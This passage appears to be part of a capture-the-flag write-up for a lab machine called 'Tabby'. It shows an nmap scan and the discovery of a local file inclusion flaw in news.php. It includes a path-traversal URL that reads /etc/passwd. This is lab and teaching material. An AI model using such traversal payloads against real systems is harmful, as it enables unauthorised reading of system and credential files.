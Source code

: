 ```shell
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 338ABBB5EA8D80B9869555ECA253D49D
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  6 23:06:56 2020 -- 1 IP address (1 host up) scanned in 77.58 seconds
```
### Port 80
<p class= "aligncenter" >
  <img src="assets/images/tabby-port80.png" class="center">
</p>

On opening the news tab, we notice that the url of the page is "http://megahosting.htb/news.php?file=statement".
So we will add megahosting.htb to our /etc/hosts file.
The url of this page also indicates a possible Local File Inclusion Vulnerability.<br>
Let's confirm this by reading /etc/passwd since in every linux system it is readable by all the users.<br>
"http://megahosting.htb/news.php?file=../../../../etc/passwd" 
<p class= "aligncenter" >